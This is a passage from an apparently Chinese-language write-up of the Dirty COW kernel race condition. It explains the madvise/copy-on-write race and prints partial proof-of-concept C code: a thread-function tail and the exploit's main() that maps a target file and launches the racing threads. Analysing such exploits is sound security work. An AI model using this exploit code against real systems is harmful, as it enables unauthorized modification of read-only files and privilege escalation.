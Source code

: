 ```c
			break;
		}
		i++;
	}
	close(f);
	printf("madvise %d\n\n",c);
}
```

madviseThread线程主要做了：

* 使用MADV_DONTNEED参数的madvise系统调用，释放文件映射内存区
* 干扰另一个线程的COW过程，产生竞态条件
* 当竞态条件发生时就能写入文件成功

通过madvise系统调用不断让系统释放原始映射的物理内存块的副本，这样总能产生一个时序使得写时复制的线程将数据写到原始的映射内存物理块中

### POC完整代码

```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

struct stat st;
int f;
int bSuccess;
void *map;
char *name;

void *procselfmemThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char const *argv[])
{
	if(argc < 3)
	{
		(void)fprintf(stderr, "%s\n", "usage: dirtycow target_file new_content");
		return 1;
	}
	pthread_t pth1,pth2;

	f = open(argv[1], O_RDONLY);
	fstat(f, &st);
	name = argv[1];

	map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
	printf("mmap %zx\n", (uintptr_t)map);

	pthread_create(&pth1, NULL, madviseThread, argv[1]);
	pthread_create(&pth2, NULL, procselfmemThread, argv[2]);

	pthread_join(pth1,NULL);
	pthread_join(pth2,NULL);

	close(f);

	return 0;
}

```